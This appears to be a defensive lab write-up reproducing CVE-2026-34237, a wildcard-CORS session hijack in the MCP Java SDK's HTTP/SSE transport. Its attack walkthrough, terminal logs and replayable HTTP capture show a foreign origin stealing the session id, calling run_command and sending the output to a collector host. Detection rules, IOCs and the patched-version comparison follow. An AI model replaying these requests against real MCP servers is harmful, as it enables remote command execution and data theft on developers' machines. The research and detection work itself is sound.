




# CVE-2026-34237 - Wildcard CORS session hijack in the MCP Java SDK HTTP/SSE transport

A technical reproduction and detection study.
Meridian Range, module 01. Classification: defensive security research. Last verified 2026-08-02.

<p align="center"></p>

<sub><b>The attack, driven from a real browser over the lab's own DNS names.</b> Left: everything the
developer ever sees, a shared "build #4209 failed" status link opened once. It never changes, start to
finish. No prompt, no warning, no second click. Right: the victim MCP server's own request log. A
foreign origin opens the SSE stream, is handed session <code>88bd3e36</code>, and replays it on every
call. The last lines are the payoff: that same session id arriving at the attacker's collector
carrying real output (<code>uid=10001(appsvc)</code>, the container hostname,
<code>LAB_CANARY_50</code>), which is proof a command executed rather than that requests were merely
accepted. Capture notes are in [media/README.md](../../media/README.md).</sub>

---

## The scenario

A developer is triaging a broken nightly build. A teammate drops a "build #4209 failed" status link into
chat, the developer clicks it, and an ordinary-looking CI dashboard opens in the same browser they code in
all day. Nothing looks wrong.

What the page does not show is that the same browser can also reach a local MCP server: a build assistant
the developer's coding agent talks to, listening on the loopback interface and assumed private because
"only localhost can reach it." The instant the status page loads, its JavaScript opens a connection to that
server, lifts the session the browser is holding, replays it, and drives a build-step command back on the
developer's own machine. There is no exploit payload, no malware, and no browser warning. One click on a
link is the entire attack.

This study reproduces that attack against the *actual* affected release of the MCP Java SDK. It walks from
the transport defect that makes a single click sufficient, through an end-to-end reproduction, to a
detection a SOC can own without trusting the vulnerable app, and finally to the one-line fix that closes it.

---

## Executive summary

**What.** The Model Context Protocol (MCP) Java SDK ships an HTTP/SSE server transport that answers
**every** request with `Access-Control-Allow-Origin: *` and discloses each client's session identifier in
the clear on the SSE stream's first event (the `endpoint` event). Any web page a developer opens in the
same browser can therefore read that session id cross-origin and relay JSON-RPC over the victim's session.

**Why it exists.** A local MCP server is assumed safe because "only localhost can reach it." That
assumption rests entirely on the browser's Same-Origin Policy. A transport that returns a wildcard
`Access-Control-Allow-Origin` removes that protection for every origin at once (CWE-942), and because the
session id travels on a readable SSE event, *reading the stream is stealing the session*: MCP HTTP/SSE has
no separate bearer credential.

**Impact.** Where the MCP server exposes a capability-bearing tool (as build, DevOps, and "desktop
commander" MCP servers routinely do), this turns "only my local agent talks to my local server" into
remote, browser-driven control of that tool.

**What was demonstrated.** A realistic Spring Boot build assistant ("Meridian CI") built on the **actual
affected SDK release** (`mcp-core 1.0.0`) was attacked from a foreign browser Origin and reproduced
end to end (`ATTACK-OK`): wildcard CORS confirmed, session id disclosed, session replayed, the capability
tool `run_command` driven to execution, and a benign canary exfiltrated. Rebuilding the identical service
against the patched SDK (`mcp-core 1.0.1`, a one-line dependency bump) blocks it (`NO-REPRO`).

**What defenders should learn.** Do not treat "localhost" as a trust boundary; validate `Origin` and never
let the transport own CORS for a capability-bearing service; treat the MCP session as a credential. The
attack is detectable from SOC-owned telemetry without trusting the vulnerable app: a request to the MCP
transport carrying a browser `Origin` whose host differs from the server it addresses is the signal.

| | |
|---|---|
| **CVE** | CVE-2026-34237 (GHSA-hv2w-8mjj-jw22) |
| **CWE** | CWE-942 (Permissive Cross-domain Policy with Untrusted Domains); chained CWE-346, CWE-862 |
| **CVSS 3.1** | 6.1 base (`AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N`) |
| **Affected** | `io.modelcontextprotocol.sdk:mcp-core` `= 1.0.0`, `= 1.1.0`, `< 0.18.3` |
| **Fixed** | `0.18.3`, `1.0.1`, `1.1.1` |
| **Status** | REPRODUCED, confidence HIGH (VM-verified 2026-07-30, host `ai-Standard-PC-Q35-ICH9-2009`) |
| **Reproduction** | `servers/mcp-ci-java` on `mcp-core 1.0.0`, this module's `./scenario.ts`, benign canary only, egress-free lab |

---

## The attack in one picture

The MCP Java SDK's HTTP/SSE transport (`mcp-core` 1.0.0) hardcodes `Access-Control-Allow-Origin: *`
and discloses the per-connection session id on the SSE `endpoint` event. A page on any origin the
developer opens can therefore read that session id cross-origin, replay it, and drive the victim's
capability tool `run_command`. One dependency bump to 1.0.1 blocks it.



Module 02 (DNS rebinding) is a **separate** attack that defeats the Origin control which stops this
one; see [`../02-dns-rebind/README.md`](../02-dns-rebind/README.md).

---

## Architecture and trust boundaries

<p align="center"></p>

The security-relevant architecture is three trust boundaries and one crossing that should not be possible:

- **Attacker infrastructure.** A page at `http://attacker.lab.consulereit.nl`, dressed as a shared "build #4209 failed"
  status link, plus a collector that receives the exfiltrated canary. In the wild this is any site the
  developer opens; in the lab both are sealed, labnet-internal containers.
- **The victim's browser (Same-Origin Policy).** The page runs in a tab at the `attacker.lab.consulereit.nl` Origin. The
  Same-Origin Policy is the *only* thing that should stop that tab from reading responses from the
  developer's local server. Wildcard CORS removes it.
- **The developer host ("only localhost can reach it").** Meridian CI, a Spring Boot 3.4 service on
  `mcp-core 1.0.0`, exposes the MCP HTTP/SSE transport and a `run_command` capability tool that shells out.
  The finding is not that the tool exists (ad-hoc shell is what a CI assistant is for) but *who can reach
  it, from where*, once the transport leaks the session cross-origin.

Everything runs on an isolated VM inside a Docker network that is `internal: true` (no egress, no
published ports); the only command ever sent through the tool is a benign canary.

The crossing that should be impossible, the `attacker.lab.consulereit.nl` tab reading the developer's server, is not an
application bug at all. It is baked into the SDK transport, which the next section takes apart.

---

## Root cause analysis

The defect is in the SDK transport, not in application code. Two facts combine.

**1. The transport makes the SSE stream cross-origin readable by any site.**
`HttpServletSseServerTransportProvider` unconditionally sets a wildcard CORS header when it services
requests:

```java
// io.modelcontextprotocol.server.transport.HttpServletSseServerTransportProvider (mcp-core 1.0.0)
response.setHeader("Access-Control-Allow-Origin", "*");
```

A cross-origin read of an SSE stream requires the server to opt in with `Access-Control-Allow-Origin`. A
blanket `*` opts in for every origin at once, which is exactly what CWE-942 (Permissive Cross-domain
Policy with Untrusted Domains) describes. A foreign page can now read the stream.

> **Figure 1 - Browser DevTools Network tab showing the `Access-Control-Allow-Origin: *` response header
> returned on the cross-origin `GET /mcp/sse` request.**

**2. The session id travels on the readable stream.** The transport announces the message endpoint on the
SSE `endpoint` event, and that payload embeds the per-connection session id:

```java
// endpoint event data:  <baseUrl><messageEndpoint>?sessionId=<uuid>
this.sendEvent(writer, ENDPOINT_EVENT_TYPE, buildEndpointUrl(sessionId));
```

Because the stream is now cross-origin readable, reading the `endpoint` event *is* stealing the session.
MCP HTTP/SSE authenticates subsequent JSON-RPC purely by that session id in the query string; there is no
separate bearer token, cookie, or `Origin` check. So a foreign page that has read the id can `POST`
JSON-RPC to `/mcp/message?sessionId=<uuid>` and drive the victim's session.

**Why the browser could not stop it.** Both steps of the attack are CORS "simple" requests, so no
preflight is involved and the browser never gets a chance to block on a missing `Access-Control-*`
response to an `OPTIONS`:

- The session-id read is a `GET` via `EventSource`/`fetch`. The wildcard `Access-Control-Allow-Origin` is
  precisely what lets the foreign page read the body.
- The relay is a `POST` with `Content-Type: text/plain` (a CORS-safelisted content type), so the browser
  sends it without a preflight. The `POST` response is not CORS-readable, but the attacker does not need
  it: the JSON-RPC result returns on the SSE stream, which *is* readable because of the wildcard header.

**The fix.** The patched releases remove the transport's ownership of CORS policy: they no longer emit a
blanket `Access-Control-Allow-Origin: *`, leaving origin control to the application or deployment, where a
strict allow-list belongs. The reference Python SDK never emitted the header, preserving the browser's
same-origin protection; the advisory calls this out as the contrasting safe behavior.

---

## Attack sequence

<p align="center"></p>

Those two transport facts are all an attacker needs; turning them into an intrusion is mechanical. Over the
dual-channel HTTP/SSE transport (protocol revision `2024-11-05`), the attack unfolds in a clean four-phase
sequence:

1. **Session-id read.** `GET /mcp/sse` with `Origin: http://attacker.lab.consulereit.nl`. The response is
   `200 Access-Control-Allow-Origin: *`, and the `endpoint` event yields
   `/mcp/message?sessionId=<uuid>`.
2. **Session replay.** `POST` (`text/plain`) an `initialize` request to the message endpoint, then
   `notifications/initialized`; the responses arrive on the SSE stream.
3. **Capability invocation.** `POST tools/call run_command` with the benign canary; the server executes
   it and streams the output back.
4. **Exfiltration.** `POST` the canary output to the attacker collector.

---

## Reproduction: evidence and conclusion

Describing the sequence is one thing; the lab shows it actually happens, and captures the proof on the
wire. The headless reproduction (this module's [`./scenario.ts`](./scenario.ts)) plays the attacker's
foreign-Origin page and asserts `ATTACK-OK` only when *all* of: the SSE response carried
`Access-Control-Allow-Origin: *`, the `endpoint` event disclosed a session id to the foreign Origin, and
`run_command` echoed the canary. The harness produces a presentation-grade evidence package on stdout and
writes the same capture to disk during `./range verify 01`; the full capture is in
[`./evidence/vuln.txt`](./evidence/vuln.txt) (written on the VM by the harness, then brought back to the
authoring host with `./range sync --pull-evidence`).

### Terminal output

Structured, deterministic, timestamped, and suitable for a screen recording without narration:

```text
[INFO ] Attacker page at https://attacker.lab.consulereit.nl models a "build #4209 failed" status link a developer opens.
[STEP ] Opening MCP session: cross-origin GET /mcp/sse from Origin https://attacker.lab.consulereit.nl
[PASS ] Wildcard CORS confirmed: Access-Control-Allow-Origin: *
[PASS ] Session identifier exposed: 36dcd659...84bb
[STEP ] Session replay: completing the MCP handshake over the stolen session
[PASS ] Session replay successful: initialize accepted over the stolen session
[INFO ] Recon: list_builds enumerated 4 pipeline runs through the hijacked session
[STEP ] Tool invocation: relaying tools/call run_command (benign canary) cross-origin
[PASS ] Tool invocation accepted: run_command executed in the CI workspace
[PASS ] Canary executed: LAB_CANARY_48 returned to the attacker
[INFO ] Exfiltrated canary output to attacker-collector (http://collector.lab.consulereit.nl:9000/pwned)

RESULT
------
  Vulnerability : CVE-2026-34237 (CWE-942)
  Status        : REPRODUCED
  Confidence    : HIGH
  Duration      : 240 ms
```

> **Figure 2 - Terminal output of `./range run 01`, ending in
> `RESULT: REPRODUCED` (`ATTACK-OK`).**

### Evidence (observed facts)

Each item is an observation the client made on the wire, not a claim the server reported about itself:

- Browser issued a cross-origin request (`GET /mcp/sse`, `Origin: https://attacker.lab.consulereit.nl`).
- Server responded with `Access-Control-Allow-Origin: *` (CWE-942), so any Origin may read the stream.
- Session identifier was disclosed on the SSE `endpoint` event
  (`/mcp/message?sessionId=36dcd659-cb80-4851-9d83-76797fc484bb`).
- Session was reused successfully: a foreign-Origin `initialize` handshake was accepted over it.
- Recon over the hijacked session read the victim's CI state (`list_builds` returned 4 pipeline runs).
- Sensitive MCP tool invoked: `run_command` accepted the relayed call and executed a shell command.
- `LAB_CANARY_48` was returned in the tool output
  (`uid=10001(appsvc) gid=10001(appsvc) groups=10001(appsvc)` on host `b32ff40add19`).
- The canary output was exfiltrated to the collector at `http://collector.lab.consulereit.nl:9000/pwned`.

### Conclusion

The evidence demonstrates successful reproduction of the vulnerability described in CVE-2026-34237. The MCP
Java SDK HTTP/SSE transport returned a wildcard `Access-Control-Allow-Origin`, disclosed the per-connection
session id on the SSE `endpoint` event, and accepted a foreign-Origin replay of that session that drove the
capability tool `run_command` to execution. A web page on any Origin the developer opens can therefore
achieve remote, cross-origin control of the victim's build assistant.

### Evidence timeline

Generated automatically from timestamped events during the run (UTC, with elapsed offset):

```text
09:45:23.325  +    2ms  Attacker page at https://attacker.lab.consulereit.nl models a "build #4209 failed" status link a developer opens.
09:45:23.325  +    2ms  Opening MCP session: cross-origin GET /mcp/sse from Origin https://attacker.lab.consulereit.nl
09:45:23.413  +   90ms  Wildcard CORS confirmed: Access-Control-Allow-Origin: *
09:45:23.413  +   90ms  Session identifier exposed: 36dcd659...84bb
09:45:23.413  +   90ms  Attacker page lifted the session id cross-origin
09:45:23.413  +   90ms  Session replay: completing the MCP handshake over the stolen session
09:45:23.480  +  157ms  Session replay successful: initialize accepted over the stolen session
09:45:23.513  +  190ms  Recon: list_builds enumerated 4 pipeline runs through the hijacked session
09:45:23.513  +  190ms  Tool invocation: relaying tools/call run_command (benign canary) cross-origin
09:45:23.542  +  219ms  Tool invocation accepted: run_command executed in the CI workspace
09:45:23.542  +  219ms  Canary executed: LAB_CANARY_48 returned to the attacker
09:45:23.542  +  219ms  Canary output returned over the SSE stream to the attacker page
09:45:23.557  +  234ms  Exfiltrated canary output to attacker-collector (http://collector.lab.consulereit.nl:9000/pwned)
```

### Raw HTTP evidence (replayable protocol capture)

Enough protocol evidence to manually replay the attack. Captured on the wire by the harness (session id is
a lab-ephemeral UUID):

```http
# Session-id read - cross-origin SSE (EventSource GET)
> GET /mcp/sse HTTP/1.1
> Host: mcp.lab.consulereit.nl:8080
> accept: text/event-stream
> origin: https://attacker.lab.consulereit.nl
< HTTP/1.1 200
< access-control-allow-origin: *
< content-type: text/event-stream;charset=UTF-8
< [SSE] event: endpoint
< [SSE] data: /mcp/message?sessionId=36dcd659-cb80-4851-9d83-76797fc484bb

# Session replay - MCP handshake over the hijacked session
> POST /mcp/message?sessionId=36dcd659-cb80-4851-9d83-76797fc484bb HTTP/1.1
> Host: mcp.lab.consulereit.nl:8080
> content-type: application/json
> origin: https://attacker.lab.consulereit.nl
> {"jsonrpc":"2.0","id":1,"method":"initialize","params":{"protocolVersion":"2024-11-05","capabilities":{},"clientInfo":{"name":"attacker.lab.consulereit.nl","version":"0.0.0"}}}
< HTTP/1.1 200 (JSON-RPC accepted; result returns on the SSE stream)
< [JSON-RPC recv] {"jsonrpc":"2.0","id":1,"result":{"protocolVersion":"2024-11-05","capabilities":{"logging":{},"tools":{"listChanged":true}},"serverInfo":{"name":"buildbot-mcp","version":"2.3.0"}}}

# Capability invocation - run_command (benign canary) over the hijacked session
> POST /mcp/message?sessionId=36dcd659-cb80-4851-9d83-76797fc484bb HTTP/1.1
> Host: mcp.lab.consulereit.nl:8080
> content-type: application/json
> origin: https://attacker.lab.consulereit.nl
> {"jsonrpc":"2.0","id":3,"method":"tools/call","params":{"name":"run_command","arguments":{"cmd":"id; hostname; echo LAB_CANARY_$$"}}}
< HTTP/1.1 200 (JSON-RPC accepted; result returns on the SSE stream)
< [JSON-RPC recv] {"jsonrpc":"2.0","id":3,"result":{"content":[{"type":"text","text":"uid=10001(appsvc) gid=10001(appsvc) groups=10001(appsvc)\nb32ff40add19\nLAB_CANARY_48"}],"isError":false}}
```

> The harness posts `application/json` because it is a headless client and is not bound by CORS; the
> real-browser drive-by (`engine/attacker/web/index.html`) must use `Content-Type: text/plain` to keep the relay
> a CORS-simple request. Both are accepted by the transport. See Researcher's notes.

---

## Detection engineering

<p align="center"></p>

Proving the attack is only half of the purple-team loop; catching it is the other half. And a SOC has to
catch it without cooperation from the vulnerable app. The SOC does not control that application and cannot
trust it to self-incriminate, so detection is built from SOC-owned telemetry and the hijack verdict is
derived at ingest. Two independent layers (full
contract in
[`../../docs/telemetry-contract.md`](../../docs/telemetry-contract.md)):

- **Layer A - endpoint (Elastic Defend), the payload.** The exec surfaces as
  `java -> /bin/sh -c "...LAB_CANARY..."` in `logs-endpoint.events.process`, independent of any web
  logging.
- **Layer B - app-layer access telemetry, the root cause.** Meridian CI emits one ECS JSON access record
  per request (`event.dataset: mcp.access`) carrying only **raw** facts (method, path, status, the
  `Origin` and `Host` headers, user agent, source address, session id) and **no verdict**. The SOC's
  ingest pipeline
  ([`./detection/ingest-pipeline.json`](./detection/ingest-pipeline.json))
  derives `mcp.cors.cross_origin` from `Origin` host vs `Host`. Rule
  [`ATR-2026-70001`](./detection/ATR-2026-70001-cors-session-hijack.yaml) fires on
  `event.dataset:"mcp.access" and url.path:"/mcp/*" and mcp.cors.cross_origin:true`.

The discriminator is that **a legitimate local MCP client sends no `Origin`; only a web page does.** The
real record captured from the drive-by (note the browser Origin, `HeadlessChrome` user agent, and the raw
shape with no derived verdict):

```json
{"@timestamp":"2026-07-30T17:47:18.371Z","log.logger":"mcp.access","message":"GET /mcp/sse -> 200",
 "http.request.method":"GET","url.path":"/mcp/sse","http.response.status_code":"200",
 "http.request.headers.origin":"http://attacker.lab.consulereit.nl","http.request.headers.host":"mcp.lab.consulereit.nl:8080",
 "user_agent.original":"Mozilla/5.0 (X11; Linux x86_64) ... HeadlessChrome/124.0.0.0 Safari/537.36",
 "source.ip":"172.28.0.68","event.dataset":"mcp.access","ecs.version":"8.11"}
```

Both rules are authored **disabled** and scoped to the lab host, and are enabled only after a confirmed
live hit and a confirmed clean negative on benign traffic (a local client sends no `Origin`, so
`mcp.cors.cross_origin` is false).

> **Figure 3 - Elastic alert for `ATR-2026-70001` firing on the cross-origin `mcp.access` record after the
> hijack, scoped to the lab host.**

---

## Vulnerable vs fixed

Detection catches the attack in flight; remediation removes the flaw that makes it possible in the first
place. The remediation is a one-line dependency bump (`mcp-core 1.0.0` to `1.0.1`) with no application change. To
show *why* the mitigation works rather than assert it, the identical Meridian CI source was rebuilt against
the patched SDK (`servers/mcp-ci-java` with build arg `MCP_SDK_VERSION=1.0.1`, run as service
`mcp-ci-fixed`) and the same scenario was run against it. Result: `NO-REPRO` (`cors_read_blocked`); capture
in [`./evidence/fixed.txt`](./evidence/fixed.txt).

| Stage | Vulnerable (`mcp-core 1.0.0`) | Fixed (`mcp-core 1.0.1`) |
|-------|:-----:|:-----:|
| Browser issues cross-origin `GET /mcp/sse` | reaches server | reaches server |
| Response carries `Access-Control-Allow-Origin: *` | yes | **no** |
| SSE stream readable cross-origin | yes | **no** |
| Session id readable by the foreign Origin | yes | **no** |
| `initialize` replayed over the session | yes | **not reached** |
| `tools/call run_command` accepted | yes | **not reached** |
| Command execution (`LAB_CANARY`) | yes | **not reached** |
| Scenario verdict | `ATTACK-OK` | `NO-REPRO` |

The whole attack chain is gated on the first row that changes. The patched transport still emits the
`endpoint` event (the transport keeps working for legitimate same-origin clients), so the session id still
*exists* on the server, but without the wildcard header a browser Origin can no longer *read* the stream,
and the chain stops at the transport. Observed header diff (same request, one dependency bump):

```diff
  > GET /mcp/sse   Origin: http://attacker.lab.consulereit.nl
  Vulnerable (1.0.0):                          Fixed (1.0.1):
  < HTTP/1.1 200                               < HTTP/1.1 200
- < access-control-allow-origin: *            (header absent)
  < content-type: text/event-stream           < content-type: text/event-stream
  < event: endpoint  sessionId=<uuid>          < event: endpoint  sessionId=<uuid>
```

---

## IOC summary

An incident-response artifact for the attack as it appears to a SOC (session id redacted):

```text
Endpoints:       /mcp/sse   /mcp/message?sessionId=<redacted>
Methods:         GET, POST
Header Origin:   http://attacker.lab.consulereit.nl        (a local MCP client sends none; the discriminator)
Header Host:     mcp.lab.consulereit.nl:8080
User-Agent:      HeadlessChrome/124.0.0.0   (browser-class; a browser Origin is present)
Session id:      8736e8a2...608a            (lab-ephemeral UUID, disclosed on the endpoint event)
Tools driven:    list_builds (recon), run_command (capability exec)
Source:          foreign browser Origin, labnet 172.28.0.0/16
Exfil sink:      http://collector.lab.consulereit.nl:9000/pwned
Detection ops:   ATR-2026-70001 (mcp.access, mcp.cors.cross_origin:true)
                 Elastic Defend EQL (parent java, child sh, command_line like LAB_CANARY)
```

---

## Researcher's notes

- **Reproduction fidelity.** The service is built on the *actual* affected release (`mcp-core 1.0.0`),
  pinned in `pom.xml`; the vulnerability is inherited from the SDK, not simulated. `McpServerConfig` wires
  the transport with the SDK builder and neither adds nor removes any CORS handling, so upgrading the one
  pinned dependency remediates the service with no code change. That is exactly the point.
- **Harness vs browser (an honest limitation).** The headless harness is not a browser, so it is not
  CORS-constrained and posts `application/json`; it can also read the `endpoint` event even against the
  patched server. The scenario therefore gates its verdict on the `Access-Control-Allow-Origin` header
  (what a browser enforces), not on whether the id appears on the stream. The real-browser variant
  (`engine/attacker/web/index.html`) uses the CORS-simple `text/plain` relay and is the faithful drive-by; it was
  run separately (HeadlessChrome) and the canary landed in the collector.
- **No preflight, by design.** Both attack requests are CORS-simple, so no `OPTIONS` preflight occurs. We
  verified separately that an `OPTIONS` for an `application/json` POST returns `200` with no CORS header
  (so a naive `application/json` browser relay would be blocked); the `text/plain` path is the faithful
  one.
- **Impact vs CVSS.** The base score (6.1) reflects the *transport* defect (low confidentiality/integrity,
  user interaction required, changed scope). The demonstrated impact is higher because the hijacked session
  inherits whatever the tool can do (`run_command` shells out); that chained impact is a property of the
  deployment, not of the CVE score.
- **Differences from a production deployment.** Real servers often bind to `127.0.0.1` and may sit behind a
  reverse proxy; the reachability precondition is the browser talking to `localhost`, which the separate
  DNS-rebinding attack (module 02, CVE-2025-66414) can also satisfy. The lab uses labnet DNS names in place
  of `127.0.0.1:8080` but the transport behavior is identical.
- **Historical context and protocol evolution.** HTTP/SSE (revision `2024-11-05`) is the dual-channel
  transport where the session id rides the `endpoint` event. The later Streamable HTTP transport (revision
  `2025-03-26`) returns the session id in an `Mcp-Session-Id` response header instead. The advisory notes
  the SDK's streamable servlet transport is affected too; this study reproduces the HTTP/SSE path.
- **Fixes in later versions.** Patched in `0.18.3`, `1.0.1`, and `1.1.1`: the transport no longer emits a
  blanket `Access-Control-Allow-Origin: *`, returning origin control to the application/deployment. The
  reference Python SDK never emitted the header.
- **Version-data caveat.** NVD's configuration string additionally lists a `0.83.0` fixed version that does
  not correspond to any published artifact; the GHSA advisory's `0.18.3 / 1.0.1 / 1.1.1` set is treated as
  canonical here, and Maven Central confirms those releases exist.

---

## Assessment

- **What was proven.** On the affected SDK release, a foreign browser Origin can read the MCP session id
  cross-origin and drive a capability-bearing tool to code execution. Reproduced end to end in the lab
  (`ATTACK-OK`), with a replayable protocol capture and two independent detections.
- **Confidence.** High. Every claim is backed by an on-the-wire observation; the mitigation is
  demonstrated (not asserted) by an identical build on the patched SDK returning `NO-REPRO`.
- **Preconditions.** (1) The MCP server runs an affected `mcp-core` version and exposes the HTTP/SSE (or
  streamable servlet) transport. (2) The victim opens an attacker-controlled page in a browser that can
  reach the server (typically `localhost`; the DNS-rebinding variant relaxes this). (3) The server exposes
  a tool worth driving; the transport flaw is the same regardless, but impact scales with the tool.
- **Exploitability.** Straightforward: both requests are CORS-simple (no preflight), no credential beyond
  the leaked session id is needed, and the payload returns on the readable SSE stream. User interaction
  (opening a page) is the only gate.
- **Detection recommendations.** Ship the MCP transport's access log (or a reverse-proxy log) as
  `mcp.access`; derive `mcp.cors.cross_origin` at ingest; alert on any cross-origin request to `/mcp/*`.
  Back it with EDR process telemetry for the capability exec. Scope to the relevant hosts and validate
  against benign local-client traffic (no `Origin`) before enabling.
- **Mitigation recommendations.** Upgrade `mcp-core` to `1.0.1` / `1.1.1` / `0.18.3` or later (a one-line
  bump here). Do not let the transport own CORS: set a strict `Access-Control-Allow-Origin` allow-list at
  the app or ingress and never `*` for a capability-bearing service. Validate `Origin` and enforce a `Host`
  allow-list (blunts the DNS-rebinding variant). Bind to loopback, authenticate, and gate or sandbox
  ad-hoc exec tools; treat the MCP session as a credential.
- **Remaining limitations.** The headless harness is not a browser (see Researcher's notes); the private
  disclosure timeline is not published and is not guessed; and the chained impact demonstrated here depends
  on the specific tool a given deployment exposes.

**The takeaway.** Nothing here is exotic. A transport shipped one permissive header, and that single line
was enough to turn "only my local agent can reach my local server" into "any page in my browser can." The
session id was never really a secret, because once the stream is readable there is no credential behind it
to steal in the first place. That is also why the fix is a one-line dependency bump and not a rewrite:
remove the header and the whole chain collapses at step one, before a session is ever read. The lesson
outlives this CVE. Localhost is not a trust boundary, a capability-bearing service must own a strict Origin
allow-list instead of inheriting a library's CORS default, and an MCP session has to be treated as the
credential it effectively is. Draw the boundary at Origin rather than at the network, and one click on a
link stops being enough.

---

## Reproduce it live

Deterministic and timestamped, suitable for a screen recording without pausing to explain each step. On the
isolated lab VM only (the VM is marked by the file `/etc/meridian-vm`; `MERIDIAN_ON_VM=1` still works for a
single command):

```bash
./range up 01        # bring up Meridian CI (mcp-core 1.0.0) + attacker infra, sealed tier
./range run 01       # the full evidence package above, ending in RESULT: REPRODUCED
./range verify 01    # the same run as the gate: asserts ATTACK-OK and writes ./evidence/vuln.txt

# mitigation, every declared release at once (1.0.0 reproduces; 1.0.1 / 1.1.1 / 0.18.3 do not):
./range matrix 01

# or the single named side-by-side the table above cites:
docker compose --project-directory . -f engine/compose.yml -f modules/01-cors-session-hijack/compose.yml \
  --profile fixed up -d --build mcp-ci-fixed
MCP_TARGET_URL=http://mcp-fixed.lab.consulereit.nl:8080 ./range run 01   # NO-REPRO
```

---

## Disclosure timeline

Limited to what primary sources document; private disclosure/report dates are not published in the advisory
and are deliberately not guessed.

| Date | Event |
|------|-------|
| 2026-03-31 | CVE-2026-34237 published (NVD); GitHub advisory GHSA-hv2w-8mjj-jw22 |
| (with the advisory) | Fixed releases available: `mcp-core` 0.18.3, 1.0.1, 1.1.1 |
| 2026-07-24 | NVD record last modified |
